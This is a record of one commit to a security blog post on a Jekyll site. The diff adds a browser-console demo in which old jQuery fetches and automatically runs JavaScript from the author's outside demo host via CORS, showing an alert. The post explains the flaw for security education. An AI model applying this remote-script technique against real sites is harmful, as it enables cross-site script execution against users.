

Before and after one commit to Sjord/Sjord.github.io, a Jekyll site: the page built from _posts/2017-07-24-some-libraries-evaluate-remote-javascript.md, in a window 1280 px wide and 900 px high, scrolled down 1068 px. Shown: the whole window, without its empty margins (107-879 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add demo to jQuery post

```diff
--- a/_posts/2017-07-24-some-libraries-evaluate-remote-javascript.md
+++ b/_posts/2017-07-24-some-libraries-evaluate-remote-javascript.md
@@ -24,6 +24,12 @@
 In order to exploit this we need to trigger a AJAX request to a JavaScript file that is under the attacker's control. The easiest way to do this is for the attacker to host this script on his own domain. However, the same-origin policy dictates that you can't fetch data from another domain, so this wasn't much of a risk.
 
 However, with the introduction of [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS) it is possible to selectively disable the same-origin policy. This opt-in policy only allows whitelisted domains to do cross-origin requests. However, the attacker's site with his malicious script can opt-in and allow a cross-site request from the site doing the AJAX request. This means that the same-origin policy no longer protects against cross-site script execution.
+
+**Try it:** Open [a site with an old version of jQuery](http://jquery.com/), and type the following in the browser console:
+
+    jQuery.get('http://demo.sjoerdlangkemper.nl/cors.php')
+
+[That URL](http://demo.sjoerdlangkemper.nl/cors.php) will return JavaScript using the correct content type and CORS headers. jQuery will immediately evaluate the JavaScript and show an alert.
 
 ## Same-origin mitigation
 
```
